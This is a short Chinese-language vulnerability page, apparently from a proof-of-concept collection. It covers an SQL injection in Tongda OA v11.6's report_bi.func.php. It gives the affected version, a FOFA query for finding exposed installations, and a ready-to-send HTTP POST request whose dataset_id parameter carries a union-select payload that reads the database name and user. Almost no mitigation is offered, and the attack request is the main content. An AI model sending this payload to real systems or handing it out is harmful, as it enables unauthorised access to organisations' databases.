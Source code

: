 # 通达OA v11.6 report_bi.func.php SQL注入漏洞

## 漏洞描述

通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

<a-checkbox checked>通达OA v11.6 </a-checkbox></br>

## FOFA

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628302327738-ad1786e4-4b1d-42a2-b292-ff14cbb94476.png)

发送请求包执行SQL语句

```php
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

![img](../../../.vuepress/public/img/1628302377105-4b5b0721-a8ab-4df9-987c-744fb145f178.png)